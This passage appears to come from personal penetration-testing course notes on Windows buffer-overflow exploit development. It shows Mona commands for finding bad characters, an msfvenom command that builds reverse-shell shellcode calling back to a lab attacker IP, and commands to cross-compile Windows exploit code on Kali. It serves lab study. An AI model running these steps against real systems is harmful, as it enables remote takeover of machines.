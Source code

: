 ```bash
!mona config -set workingfolder c:\logs\%p
```

Create byte array, excluding the null byte.

```bash
!mona bytearray -b "\x00"
````

Use Mona to compare the stack at the `ESP` address to the original byte array.

```bash
!mona compare -f C:\logs\offsec_pwk_srv\bytearray.bin -a 010FEED0
````

Remake byte array without bad characters:

```bash
!mona bytearray -cpb "\x00\x04\x05\x18\x19\x91\x92\xa5\xa6\xf5\xf6"`
```

Compare byte array to verify.
```bash
!mona compare -f C:\logs\offsec_pwk_srv\bytearray.bin -a 006FEC3C
````

Generate shellcode with MSFvenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.136 LPORT=80 -f c -b "\x00\x04\x05\x18\x19\x91\x92\xa5\xa6\xf5\xf6" 
```

# Miscellaneous
Path not set 

Windows
```
set PATH=%SystemRoot%\system32;%SystemRoot%;
```
Linux
```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Compile Windows exploit on Kali
```bash
# 64-bit
x86_64-w64-mingw32-gcc shell.c -o shell.exe

# 32-bit
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```
